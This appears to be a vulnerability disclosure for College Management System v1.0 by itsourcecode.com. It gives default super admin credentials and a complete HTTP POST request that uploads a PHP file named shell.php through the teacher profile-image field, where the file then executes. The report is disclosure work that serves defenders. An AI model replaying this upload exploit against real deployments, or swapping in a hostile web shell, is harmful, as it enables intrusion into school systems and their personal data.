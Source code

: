 # College Management System v1.0 by itsourcecode.com has arbitrary code execution (RCE)

Login account: admin@gmail.com/admin123* (Super Admin account)

vendor:  https://itsourcecode.com/free-projects/php-project/college-management-system-project-in-php-and-mysql/

Vulnerability url: /College/admin/teacher.php

Vulnerability file: /College/admin/teacher.php

Payload:

```sql
POST /College/admin/teacher.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/College/admin/Teacher.php
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1; ci_session=9cjop1qgnjcd780kijmjrva559enogjl
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------2754910320402
Content-Length: 3466

-----------------------------2754910320402
Content-Disposition: form-data; name="first_name"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="middle_name"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="last_name"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="email"

111@qq.com
-----------------------------2754910320402
Content-Disposition: form-data; name="phone_no"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="profile_image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------2754910320402
Content-Disposition: form-data; name="teacher_status"

Permanent
-----------------------------2754910320402
Content-Disposition: form-data; name="application_status"

Yes
-----------------------------2754910320402
Content-Disposition: form-data; name="cnic"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="dob"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="other_phone"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="gender"

Male
-----------------------------2754910320402
Content-Disposition: form-data; name="permanent_address"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="current_address"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="place_of_birth"

1111
-----------------------------2754910320402
Content-Disposition: form-data; name="matric_complition_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="matric_awarded_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="matric_certificate"; filename=""
Content-Type: application/octet-stream


-----------------------------2754910320402
Content-Disposition: form-data; name="fa_complition_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="fa_awarded_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="fa_certificate"; filename=""
Content-Type: application/octet-stream


-----------------------------2754910320402
Content-Disposition: form-data; name="ba_complition_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="ba_awarded_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="ba_certificate"; filename=""
Content-Type: application/octet-stream


-----------------------------2754910320402
Content-Disposition: form-data; name="ma_complition_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="ma_awarded_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="ma_certificate"; filename=""
Content-Type: application/octet-stream


-----------------------------2754910320402
Content-Disposition: form-data; name="password"

teacher123*
-----------------------------2754910320402
Content-Disposition: form-data; name="role"

Teacher
-----------------------------2754910320402
Content-Disposition: form-data; name="btn_save"

Save Data
-----------------------------2754910320402--
```

The files will be uploaded to this directory \Admin\images

![image](https://user-images.githubusercontent.com/79501212/171629168-7db86e09-b3a7-4a43-8503-b2b972902dfd.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/79501212/171629319-8da12567-6f1a-4455-a65f-a61d9a3ccc5c.png)
